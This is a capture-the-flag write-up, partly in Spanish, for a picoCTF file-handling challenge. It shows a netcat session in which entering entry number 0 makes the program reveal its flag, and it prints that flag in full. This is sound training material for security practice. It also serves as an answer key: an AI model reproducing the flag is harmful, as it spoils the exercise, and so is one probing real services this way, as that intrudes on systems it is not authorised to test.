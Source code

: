 The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 49698` The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/541/program-redacted.c).

Hints:
1. Try passing in things the program doesn't expect. Like a string instead of a number.

## Solución
``` bash
holiwiscach@ubuntu:~/basic_file_exploit$ nc saturn.picoctf.net 49698

```

``` bash
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
0
0
Please put in a valid number
1
1
Please enter your data:
carlos
carlos
Please enter the length of your data:
123
123
Your entry number is: 1
Write successful, would you like to do anything else?
No data given.
Please put in a valid number
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}
```

bandera:
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}
